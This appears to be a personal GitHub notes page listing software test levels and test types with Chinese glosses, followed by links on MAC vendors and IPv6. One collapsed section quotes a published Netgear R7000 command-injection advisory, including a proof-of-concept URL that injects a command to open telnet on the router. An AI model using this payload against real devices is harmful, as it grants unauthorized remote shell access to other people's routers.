 # WorkingSpace

## Test Level

- RAT > FAST > TOFT = Boundary = FET > Volume = Stress
  - Release Acceptance Test(RAT)
  - Functional Acceptance Simple Test(FAST)
  - Force Error Test(FET)
  - Task-Oriented Function Test(TOFT)
  - Boundary Test
  - Volume Test
  - Stress Test

```text
Unit Test                   單元測試-在最基本的功能/參數上驗證程序的正確性
Functional Test             功能測試-驗證模塊的功能
Integration Test            集成測試-驗證幾個互相有依賴關係的模塊的功能
Scenario Test               場景測試-驗證幾個模塊能否完成一個用戶場景
System Test                 系統測試-對於整個系統功能的測試
Beta Test                   外部軟件測試人員在實際用戶環境中對軟件進行全面的測試
Stress/Load Test            壓力測試-測試軟件在負載情況下能否正常工作
Performance Test            性能測試-測試軟件的效能
Accessibility Test          可訪問性測試-測試軟件是否向殘疾用戶提供了足夠的輔助功能
L10N/G11N Test              本地化/全球化測試
Compatibility Test          兼容性測試
Configuration Test          配置測試-測試軟件在各種配置下能否正常工作
Usability Test              易用性測試-測試軟件是否好用
Security Test               軟件安全性測試
Smoke Test                  冒煙測試-測試不通過,則不能進一下步工作
Build Verification Test     驗證構建是否通過基本測試
Acceptance Test             驗收測試-全面考核某方面的功能/特性
Regression Test             回歸測試-對一個新的版本,重新運行以往的測試用例,確認新版本比已知版本有無退化(regression)
Ad hoc(Exploratory) Test    隨機進行的,探索性的測試
Bug Bash                    Bug大掃除-全體成員參加的找"小強"活動
Buddy Test                  夥伴測試-開發人員(夥伴)作為測試人員測試特定模塊
```

## Common Vulnerabilities and Exposures

<details><summary>CVE</summary>

```text
# Exploit Title: Netgear R7000 - Command Injection
# Date: 6-12-2016
# Exploit Author: Acew0rm
# Contact: https://twitter.com/Acew0rm1
# Vendor Homepage: https://www.netgear.com/
# Category: Hardware
# Version: V1.0.7.2_1.1.93

- Vulnerability     An unauthenticated user can inject commands threw http://RouterIP/cgi-bin/;COMMAND.
- Proof Of Concept  http://RouterIP/;telnetd$IFS-p$IFS'45' will open telnet on port 45.
```

</details>

## [MAC Vendor List](https://gist.github.com/aallan/b4bb86db86079509e6159810ae9bd3e4)

## IPv6

- [Linux IPv6 HOWTO](https://tldp.org/HOWTO/Linux+IPv6-HOWTO/)
- [GetIPv6.Info - ARIN's IPv6 Wiki](https://www.arin.net/vault/knowledge/getipv6_info.html)
